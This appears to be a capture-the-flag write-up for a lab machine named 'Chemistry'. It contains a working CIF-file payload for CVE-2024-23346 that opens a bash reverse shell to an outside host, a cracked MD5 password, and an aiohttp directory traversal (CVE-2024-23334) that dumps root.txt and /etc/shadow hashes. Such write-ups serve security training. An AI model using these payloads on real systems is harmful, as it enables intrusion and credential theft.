





Port Scan 🔗
# Nmap 7.94SVN scan initiated Fri Oct 25 12:20:35 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o port_scan 10.10.11.38
Nmap scan report for 10.10.11.38
Host is up (0.098s latency).
Not shown: 986 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
| 256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_ 256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
306/tcp filtered unknown
668/tcp filtered mecomm
1049/tcp filtered td-postman
1112/tcp filtered msql
1247/tcp filtered visionpyramid
1600/tcp filtered issd
1801/tcp filtered msmq
4848/tcp filtered appserv-http
5000/tcp open upnp?
| fingerprint-strings:
| GetRequest:
| HTTP/1.1 200 OK
| Server: Werkzeug/3.0.3 Python/3.9.5
| Date: Fri, 25 Oct 2024 16:20:57 GMT
| Content-Type: text/html; charset=utf-8
| Content-Length: 719
| Vary: Cookie
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="UTF-8">
| <meta name="viewport" content="width=device-width, initial-scale=1.0">
| <title>Chemistry - Home</title>
| <link rel="stylesheet" href="/static/styles.css">
| </head>
| <body>
| <div class="container">
| class="title">Chemistry CIF Analyzer</h1>
| <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
| <div class="buttons">
| <center><a href="/login" class="btn">Login</a>
| href="/register" class="btn">Register</a></center>
| </div>
| </div>
| </body>
| RTSPRequest:
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
| "http://www.w3.org/TR/html4/strict.dtd">
| <html>
| <head>
| <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
| <title>Error response</title>
| </head>
| <body>
| <h1>Error response</h1>
| <p>Error code: 400</p>
| <p>Message: Bad request version ('RTSP/1.0').</p>
| <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
| </body>
|_ </html>
5633/tcp filtered beorl
5915/tcp filtered unknown
8291/tcp filtered unknown
55555/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=10/25%Time=671BC560%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,38A,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.3
SF:\x20Python/3\.9\.5\r\nDate:\x20Fri,\x2025\x20Oct\x202024\x2016:20:57\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x20719\r\nVary:\x20Cookie\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=
SF:\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"wid
SF:th=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Chemi
SF:stry\x20-\x20Home</title>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/styles\.css\">\n</head>\n<body>\n\x20\x20\x20\x20\n\x
SF:20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\n\x20\x20\x20\x20<div\x20class
SF:=\"container\">\n\x20\x20\x20\x20\x20\x20\x20\x20<h1\x20class=\"title\"
SF:>Chemistry\x20CIF\x20Analyzer</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>
SF:Welcome\x20to\x20the\x20Chemistry\x20CIF\x20Analyzer\.\x20This\x20tool\
SF:x20allows\x20you\x20to\x20upload\x20a\x20CIF\x20\(Crystallographic\x20I
SF:nformation\x20File\)\x20and\x20analyze\x20the\x20structural\x20data\x20
SF:contained\x20within\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s=\"buttons\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<center
SF:><a\x20href=\"/login\"\x20class=\"btn\">Login</a>\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"/register\"\x20class=\"btn\">R
SF:egister</a></center>\n\x20\x20\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\
SF:x20\x20</div>\n</body>\n<")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUB
SF:LIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x
SF:20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Con
SF:tent-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>
SF:\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20
SF:response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400
SF:</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20
SF:version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Er
SF:ror\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20r
SF:equest\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20
SF:</body>\n</html>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/25%OT=22%CT=1%CU=30360%PV=Y%DS=2%DC=T%G=Y%TM=671
OS:BC5D9%P=x86_64-pc-linux-gnu)SEQ(TS=A)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=Z%
OS:II=I%TS=A)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=101%GCD=1%
OS:ISR=10C%TI=Z%CI=Z%II=I%TS=D)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT
OS:11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=F
OS:E88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN
OS:=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 443/tcp)
HOP RTT ADDRESS
1 93.00 ms 10.10.14.1
2 93.29 ms 10.10.11.38
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 25 12:22:49 2024 -- 1 IP address (1 host up) scanned in 133.34 seconds
On port 5000 after creating an user and login you can see an upload form:

You can download an example file in .cif format
data_Example
_cell_length_a 10.00000
_cell_length_b 10.00000
_cell_length_c 10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta 90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
_atom_site_label
_atom_site_fract_x
_atom_site_fract_y
_atom_site_fract_z
_atom_site_occupancy
H 0.00000 0.00000 0.00000 1
O 0.50000 0.50000 0.50000 1
After some searches i found this resource: https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
So generate a reverse shell exploit appending these lines to example file:
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.57/4444 0>&1\'");0,0,0'
_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
Then upload it on the platform and while listening on specified port click on “view” button and you will get a reverse shell:

Once in I browsed trough folders and found a .db file in /instance:

So copy it and store in local to analyze and the go to https://inloop.github.io/sqlite-viewer/ to visualize it:

rosa:63ed86ee9f624c7b14f1d4f43dc251a5
Is an MD5 hashed password, tried to crack it on crackstation:

rosa:unicorniosrosados
So let’s try to ssh into the machine:


Try to forward the the port 8080 that is not exposed, it has to be an internal service, so forward it trough ssh and browse the page:

rosa@chemistry:~$ curl localhost:8080 --head
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Fri, 01 Nov 2024 23:43:28 GMT
Server: Python/3.9 aiohttp/3.9.1
The running service is aiohttp 3.9.1, which is vulnerable to directory traversal attack: CVE-2024-23334 Through this vulnerability we can get the root flag:
┌──(kali㉿kali)-[~]
└─$ curl -s --path-as-is http://localhost:8080/assets/../../../../root/root.txt
6401b9e5a23e0b20fecead6965d9f51e
┌──(kali㉿kali)-[~]
└─$ curl -s --path-as-is http://localhost:8080/assets/../../../../etc/shadow
root:$6$51.cQv3bNpiiUadY$0qMYr0nZDIHuPMZuR4e7Lirpje9PwW666fRaPKI8wTaTVBm5fgkaBEojzzjsF.jjH0K0JWi3/poCT6OfBkRpl.:19891:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19889:0:99999:7:::
sshd:*:19889:0:99999:7:::
systemd-coredump:!!:19889::::::
rosa:$6$giyD4I2YumzG4k6.$0h0Gtrjj13qoK6m0XevedDBanbEz6BStzsLwUtrDm5sVkmnHOSSWF8f6W8B9btTEzyskmA2h/7F7gyvX1fzrT0:19893:0:99999:7:::
lxd:!:19889::::::
app:$6$XUL17hADm4qICsPv$QvCHMOImUTmS1jiaTQ2t6ZJtDAzgkqRhFYOMd0nty3lLwpyxTiyMWRgO/jbySPENinpJlL0z3MK1OVEaG44sQ1:19890:0:99999:7:::
_laurel:!:20007::::::
Got the root flag, but let’s try to crack root password anyway